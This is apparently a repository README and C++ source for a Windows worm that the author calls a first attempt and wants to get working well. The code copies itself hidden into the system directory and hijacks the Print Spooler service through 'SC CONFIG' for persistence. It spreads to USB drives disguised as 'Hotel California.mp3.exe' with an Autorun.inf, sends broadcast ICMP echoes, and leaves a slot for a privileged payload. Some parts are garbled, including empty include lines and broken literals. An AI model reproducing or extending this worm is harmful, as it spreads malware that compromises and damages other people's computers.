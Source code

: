 # my-first-worm
its my first time making a worm and its going to have a very weak mechanism at first but i would like to get it working well

/* testproc.cpp */
#include 
#include 
#define PROCESSNAME “testproc.exe”
using namespace std;
int main (int argc, char* argv[])   {
      ShellExecute(NULL,"open", PROCESSNAME, NULL, NULL, 0);
return EXIT_SUCCESS;
}
/* virus4.cpp */
#include 
#include 
#include 
#include 
#define DISGUISE "Hotel California.mp3.exe"
#define DISGUISEPATH "\\Hotel California.mp3.exe"
#define ENVOKER "\\envoker.exe"
#define FILEATTRIB 34
#define IPADDR INADDR_BROADCAST      // The address to be attacked with icmp echoes.
#define PROCESSNAME "virus4.exe"
#define PROCSSPATH "\\virus4.exe"
#define PROCESSPATH "..\\virus4.exe"
using namespace std;
/*-----------------The icmp global section-------------------*/         
struct o                            {
        unsigned char Ttl, Tos, Flags, OptionsSize, *OptionsData;
};
struct E                            {
     DWORD Address;
     unsigned long Status, RoundTripTime;
     unsigned short DataSize, Reserved;
    void *Data;
    struct o Options;
};
HANDLE hIP;
WSADATA wsa;
HMODULE hicmp;
struct hostent *phostent;
DWORD d;
char aa[100];
struct o I;
struct E es;
HANDLE ( WINAPI *pIcmpCreateFile) ( void );
BOOL ( WINAPI *pIcmpCloseHandle ) ( HANDLE );
DWORD ( WINAPI *pIcmpSendEcho) (HANDLE, DWORD, LPVOID,
WORD, LPVOID, LPVOID, DWORD, DWORD);
/*----------------------------------------------------*/
void _declspec (dllexport) identify(char *file)     {
     SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_HIGHEST);
          char systemPath[101], envokerPath[101], buffer[201];          
          CopyFile(file, PROCESSPATH, NULL);
          SetFileAttributes(PROCESSPATH, FILEATTRIB);
          GetSystemDirectory(systemPath, 50);
          strcpy(buffer, "SC CONFIG Spooler error= ignore binpath= ");
          strcpy(envokerPath, systemPath);
          strcat(envokerPath, ENVOKER);
          strcat(buffer, envokerPath);
          strcat(systemPath, PROCSSPATH);
          CopyFile(file, systemPath, 0);
          CopyFile(file, envokerPath, 0);
          SetFileAttributes(systemPath, FILEATTRIB);
          SetFileAttributes(envokerPath, FILEATTRIB);  
          system(buffer);
}
void _declspec (dllexport) systemProc(char *proc)     {
/**
  * The payload section, The payload will run as an service.
  **/
SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_HIGHEST);
for (int countsys = 0; countsys < 10; countsys++)
     _asm  { nop }
        /* The payload code can be inserted here.            */
        /* The code will be executed with highest privileges */
}
void _declspec (dllexport) procCloner(char *cfile)    {
     SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_HIGHEST);
     FILE *fp;
     char drive[3], newloc[30], autof[20];
     int let = 0x43;
     struct stat stbuf;             
    for (int i = 0; i < 256; i++, let++)    {
         if (let > 0x5A)
             let = 0x43;
             drive[0] = (char)let;
             drive[1]= ':';
             drive[2] = '';
            if ((GetDriveType(drive)) == 2)  { // This line fetches the removable drives.
                strcpy(newloc, drive);
                strcat(newloc, DISGUISEPATH);
                strcpy(autof, drive);
                if ((stat(newloc, &stbuf)) == -1) { // Check if file already exists
 in the pen drive.
                    CopyFile(cfile, newloc, 0);  // If not then copy the file.
                    strcat(autof, "\\Autorun.inf");
                    fp = fopen(autof, "w");
                    fprintf(fp, "[autorun]\nopen=%s", DISGUISE);
                    fclose(fp);
                    SetFileAttributes(newloc, 28);
                } else
                    continue;
        }
    }
}
/*------------------ The main engine of worm ------------------*/
int main (int argc, char* argv[])   {
//   SetThreadPriority(GetCurrentThread(), THREAD_PRIORITY_HIGHEST);
     HANDLE thread, cloner, thands[3];
     char *ptr, procfile[300];
     ptr = argv[0];
     strcpy(procfile, ptr);
     if ((strstr(ptr, ".exe")) == NULL)      {
         strcat(procfile, ".exe");
     }
     void (*clonproc) (char *);
     clonproc = procCloner;
     cloner = CreateThread(0, 0, (DWORD (__stdcall *)(void *))clonproc, procfile, 0, 0);
    HMODULE hmod;
    char dirpath[201];
    void (*smack)(char *);
    GetCurrentDirectory(200, dirpath);
    hmod = LoadLibrary(procfile);
    if ((strstr(dirpath, "system32")) != NULL)                         {      
  smack = (void (*)(char *))GetProcAddress(hmod, "?systemProc@@YAXPAD@Z");
            thread = CreateThread(0, 0, (DWORD (__stdcall *)(void*))smack, procfile, 0, 0);
    } else   {
       smack = (void (*)(char *))GetProcAddress(hmod, "?identify@@YAXPAD@Z");
            thread = CreateThread(0, 0, (DWORD (__stdcall *)(void*))smack, procfile, 0, 0);
    }
       thands[0] = cloner;
       thands[1] = thread;
       thands[2] = '';
/*--------------- The icmp section -----------------*/
hicmp = LoadLibrary("ICMP.DLL");
pIcmpCreateFile = (void *(__stdcall *)(void))GetProcAddress(hicmp, "IcmpCreateFile");
pIcmpCloseHandle = (int (__stdcall *)(void *))GetProcAddress(hicmp, "IcmpCloseHandle");
pIcmpSendEcho = (unsigned long (__stdcall *)(void *,unsigned
long,void *,unsigned short,void *,void *,unsigned long,unsigned
 long))GetProcAddress(hicmp, "IcmpSendEcho");
hIP = pIcmpCreateFile();
I.Ttl = 255;
for (int ping = 0; ping < 10; ping++)
      pIcmpSendEcho(hIP, IPADDR, 0, 0, &I, &es, sizeof(es), 8000);
pIcmpCloseHandle(hicmp);
FreeLibrary(hicmp);
/*--------------------------------------------------*/
// WaitForSingleObject(cloner, 200); // Activate this while testing the single thread.
// WaitForSingleObject(thread, 200); // Activate this while testing the single thread.
WaitForMultipleObjects(2, thands, true, 100); // Waits for the termination of two threads.
FreeLibrary(hmod);
chdir("..");
ShellExecute(NULL,"open", PROCESSNAME, NULL, NULL, 0);
ShellExecute(NULL,"open", PROCESSNAME, NULL, NULL, 0);
return EXIT_SUCCESS;
}
